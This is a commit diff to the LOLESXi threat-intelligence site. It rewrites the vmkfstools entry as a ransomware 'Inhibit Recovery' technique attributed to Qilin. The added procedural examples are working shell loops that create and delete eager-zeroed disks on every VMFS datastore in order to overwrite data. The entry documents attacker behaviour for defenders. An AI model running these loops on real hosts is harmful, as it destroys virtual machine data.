

Before and after one commit to LOLESXi-Project/LOLESXi, a Jekyll site: the page built from _lolesxi/Binaries/vmkfstools.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update vmkfstools.md

```diff
--- a/_lolesxi/Binaries/vmkfstools.md
+++ b/_lolesxi/Binaries/vmkfstools.md
@@ -5,27 +5,23 @@
 Created: 2024-08-27
 Commands:
   - Command: vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null
-    Description: Provides a CSV output of running Virtual Machines with its corresponding WorldID and DisplayName.
-    Usecase: Provides a list of running Virtual Machines with their WorldID and Displayname in CSV format
-    Category: Lists VMs
+    Description: Create eager-zeroed thick virtual disk at the specified location without displaying any output.
+    Usecase: Adversary uses vmfstools to create and immediately delete a 10MB eager zeroed thick disk on every datastore on the ESXi host. This will effectively overwrite contents of the disk.
+    Category: Inhibit Recovery
     Privileges: Administrator
-    MitreID: T1082
-    OperatingSystem: ESXi
-Commands:
-  - Command: vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null
-    Description: Provides a CSV output of running Virtual Machines with its corresponding WorldID and DisplayName.
-    Usecase: Provides a list of running Virtual Machines with their WorldID and Displayname in CSV format
-    Category: Lists VMs
-    Privileges: Administrator
-    MitreID: T1082
+    MitreID: T1561.001
     OperatingSystem: ESXi
     Tags:
      - E-Crime: Qilin
+    ProceduralExamples:
+     - for I in $(esxcli storage filesystem list |grep 'VMFS-5' |awk '{print $1}'); do vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null; vmkfstools -U $I/eztDisk > /dev/null; done
+     - for I in $(esxcli storage filesystem list |grep 'VMFS-6' |awk '{print $1}'); do vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null; vmkfstools -U $I/eztDisk > /dev/null; done
 Full_Path:
   - Path: /sbin/vmkfstools
   - Path: /bin/vmkfstools
 Resources:
   - Link: https://www.bleepingcomputer.com/news/security/linux-version-of-qilin-ransomware-focuses-on-vmware-esxi/
+  - Link: https://www.shadowstackre.com/analysis/qilin
 Acknowledgement:
   - Person: Lawrence Abrams
   - Person: MalwareHunterTeam
```
